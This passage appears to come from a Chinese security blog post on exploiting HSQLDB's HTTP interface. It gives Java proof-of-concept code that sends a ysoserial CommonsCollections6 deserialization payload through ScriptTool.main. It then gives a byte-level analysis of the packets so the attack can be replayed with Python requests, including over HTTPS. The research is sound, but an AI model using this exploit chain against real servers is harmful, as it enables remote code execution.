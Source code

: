 使用http方式利用hsqldb漏洞(ysoserial cc6，很多其他链也行)：

```
public static void testLocal() throws IOException, ClassNotFoundException, SQLException `{`
        String url = "http://localhost:8080";
        String payload = Hex.encodeHexString(Files.readAllBytes(Paths.get("calc.ser")));

        System.out.println(payload);

        String dburl = "jdbc:hsqldb:" + url + "/hsqldb_war_exploded/hsqldb/";
        Class.forName("org.hsqldb.jdbcDriver");

        Connection connection = DriverManager.getConnection(dburl, "sa", "");
        Statement statement = connection.createStatement();
        statement.execute("call \"java.lang.System.setProperty\"('org.apache.commons.collections.enableUnsafeSerialization','true')");
        statement.execute("call \"org.hsqldb.util.ScriptTool.main\"('" + payload + "');");
    `}`
```

[![](https://p0.ssl.qhimg.com/t016a27acda3e38ab8b.png)](https://p0.ssl.qhimg.com/t016a27acda3e38ab8b.png)



## 利用requests发包模拟hsqldb RCE

java hsqldb https问题无法解决，那就用requests来发https包就可以了，先模拟http的包。

抓取上面利用java代码发送的payload包，一共发送了三个，第一个是连接包，连接hsqldb数据库的，第二、三包是执行语句的包：

[![](https://p3.ssl.qhimg.com/t0138cc82c87b052ed7.png)](https://p3.ssl.qhimg.com/t0138cc82c87b052ed7.png)

根据代码看下第一个数据包返回的具体信息，主要读取与写入的信息都是由Result这个类处理的，一共20个字节：
1. 1~4：总长度00000014，共20字节
1. 5~8：mode，connection为ResultConstants.UPDATECOUNT，为1，00000001
1. 9~12：databaseID，如果直接像上面这样默认配置，databaseID在服务端不会赋值，由jdk初始化为0，00000000
1. 13~16：sessionID，这个值是DatabaseManager.newSession分配的值，每次连接都是一个新的值，本次为00000003
1. 17~20：connection时，为updateCount，注释上面写的 max rows (out) or update count (in)，如果像上面这样默认配置，updateCount在服务端不会赋值，由jdk初始化为0，00000000
连接信息分析完了，接下来的包肯定会利用到第一次返回包的信息，把他附加到后面发送包中，这里只分析下第二个发送包，第三个包和第二个是一样的，都是执行语句的包：
1. 1~4：总长度00000082，这里为130
1. 5~8：mode，这里为ResultConstants.SQLEXECDIRECT，0001000b
1. 9~12：databaseID，为上面的00000000
1. 13~16：sessionID，为上面的00000003
1. 17~20：updateCount，为上面的00000000
1. 21~25：statementID，这是客户端发送的，其实无关紧要，本次为00000000
1. 26~30：执行语句的长度
1. 31~：后面都是执行语句了
可以看到上面这个处理过程很简单，通过这个分析，很容易用requests发包了。对于https来说，只要设置verify=False就行了。



## 反序列化触发位置
